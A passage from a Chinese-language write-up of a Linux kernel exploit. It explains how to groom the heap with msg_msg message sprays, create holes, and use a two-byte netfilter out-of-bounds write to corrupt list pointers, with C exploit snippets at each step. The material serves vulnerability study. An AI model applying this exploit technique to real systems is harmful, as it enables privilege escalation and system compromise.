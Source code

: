 内存布局如下：

[![](https://p1.ssl.qhimg.com/t01ec54eb5fbda01fa7.png)](https://p1.ssl.qhimg.com/t01ec54eb5fbda01fa7.png)

```
printf("[*] Spraying secondary messages...\n");
  for (int i = 0; i &lt; NUM_MSQIDS; i++) `{`
    memset(&amp;msg_secondary, 0, sizeof(msg_secondary));
    *(int *)&amp;msg_secondary.mtext[0] = MSG_TAG;
    *(int *)&amp;msg_secondary.mtext[4] = i;
    if (write_msg(msqid[i], &amp;msg_secondary, sizeof(msg_secondary),
                  MTYPE_SECONDARY) &lt; 0)
      goto err_rmid;
  `}`
```

**2.2.4 释放部分主消息**

如何释放消息：当消息被暂存时需要内核开辟缓冲区保存消息，当消息被接收后，缓冲区失去价值，会被释放。为什么释放主消息：在原内存布局中释放一些主消息，可以获得相应的4096bytes内存空洞，如果某个内存空洞被xt_table_info结构体获得，就可以利用溢出2字节0 的特性进行下一步利用

```
int read_msg(int msqid, void *msgp, size_t msgsz, long msgtyp) `{`
  if (msgrcv(msqid, msgp, msgsz - sizeof(long), msgtyp, 0) &lt; 0) `{`
    perror("[-] msgrcv");
    return -1;
  `}`
  return 0;
`}`

printf("[*] Creating holes in primary messages...\n");
  for (int i = HOLE_STEP; i &lt; NUM_MSQIDS; i += HOLE_STEP) `{`
    if (read_msg(msqid[i], &amp;msg_primary, sizeof(msg_primary), MTYPE_PRIMARY) &lt;
        0)
      goto err_rmid;
  `}`
```

**2.2.5 利用漏洞特性**

使用2字节溢出将相邻的msg_msg结构体中msg_msg-&gt;list_head-&gt;next末尾两字节覆盖为0, 使得该主消息的辅助消息指向其他主消息的辅助消息。

效果：某处内存空间，被两个主消息引用

内存布局如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01ee46a61be683db21.png)

```
printf("[*] Triggering out-of-bounds write...\n");
  if (trigger_oob_write(s) &lt; 0)
    goto err_rmid;
```

**2.2.6 定位发生错误的消息队列索引**
